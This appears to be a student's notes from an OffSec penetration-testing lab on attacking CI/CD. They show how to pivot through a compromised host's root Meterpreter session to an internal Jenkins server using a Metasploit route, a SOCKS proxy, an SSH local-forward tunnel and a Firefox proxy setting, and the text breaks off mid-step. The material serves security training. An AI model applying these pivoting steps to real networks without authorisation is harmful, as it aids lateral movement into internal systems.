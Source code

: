 SOCKS proxy started on localhost:1080

Add route for any connection made to SOCKS proxy to go through the shell. 

Target network: Jenkins server IP (172.30.0.1)
```hlt:10
msf6 exploit(server/socks_proxy) > sessions

Active sessions
===============

  Id  Name  Type                      Information          Connection
  --  ----  ----                      -----------          ----------
  2         meterpreter python/linux  root @ 6699d104d6c5  10.0.1.54:4488 -> 198.18.53.73:37604 (172.18.0.4)

msf6 auxiliary(server/socks_proxy) > route add 172.30.0.1 255.255.0.0 2
```

☑️ SOCKS proxy and Route added
🅇 NO SSH tunnel to make SOCKS available to local Kali

![Figure 25: Tunneling Diagram with No SSH Tunnel](https://static.offsec.com/offsec-courses/PEN-200/images/attacking_cicd_3/9a349f65fa71dce14a3d52811784b6cd-aacicd3_tunneling_diagram_no_ssh_excalidraw.png)

Create  [_local forwarding SSH tunnel_](https://www.ssh.com/academy/ssh/tunneling-example) to cloud Kali instance from local Kali.

- Instance and port opened on local Kali: **localhost:1080**
- Append port to forward traffic to..SOCKS proxy: **localhost:1080**
- Tell SSH to not execute commands with **-N**
- Tell SSH to run in background with **-f**

```hlt:1,4
kali@kali:~$ ssh -fN -L localhost:1080:localhost:1080 kali@192.88.99.76
kali@192.88.99.76's password:

kali@kali:~$ ss -tulpn
Netid  State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process                          
tcp    LISTEN  0       128          127.0.0.1:1080        0.0.0.0:*     users:(("ssh",pid=75991,fd=5))  
tcp    LISTEN  0       128              [::1]:1080           [::]:*     users:(("ssh",pid=75991,fd=4))  
```

- Should have connection from local kali to jenkins server

Test by configuring Firefox on local Kali to use new proxy. 
	- Click _Settings_
	- Search "network"
	- Click _Manual proxy configuration_
	- On SOCKS host use **127.0.0.1** and Port **1080**

![Figure 28: Add Socks Proxy to Firefox](https://static.offsec.com/offsec-courses/PEN-200/images/attacking_cicd_3/172350505b382261de794d8a497109a2-aacicd3_socks_on_ff.png)

Navigate to Jenkins server **http://172.30.0.30:8080
